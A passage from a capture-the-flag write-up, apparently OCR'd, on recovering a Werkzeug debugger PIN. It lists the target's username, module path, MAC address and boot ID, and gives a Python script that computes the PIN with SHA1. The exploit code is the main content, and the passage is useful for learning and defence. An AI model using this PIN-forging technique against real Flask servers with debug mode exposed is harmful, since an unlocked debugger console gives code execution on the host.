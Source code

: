 ```py
rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

But the PIN code is wrong...

After around 3 hours of nothing. I found [this YouTube video writeup](https://www.youtube.com/watch?v=8dyoBfj7H8U), which helps me a LOT!

> Note: The `/etc/machine-id` and `/proc/self/cgroup` on the challenge machine are EMPTY, we can only have `/proc/sys/kernel/random/boot_id`. Also, the hashing algorithm MUST change to SHA1.

**Final public and private bits:**

- Public bits:
    - username: `yooboi` (From `/etc/passwd`)
    - modname: `flask.app`
    - `Flask`
    - The absolute path of `app.py` in the flask directory: `/usr/local/lib/python3.9/site-packages/flask/app.py`
- Private bits:
    - MAC address: `2485377892355`
    - **Boot ID: `e01d426f-826c-4736-9cd2-a96608b66fd8`**

**Final payload:**
```py
import hashlib
from itertools import chain
probably_public_bits = [
    'yooboi',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.9/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892355',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'e01d426f-826c-4736-9cd2-a96608b66fd8'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

```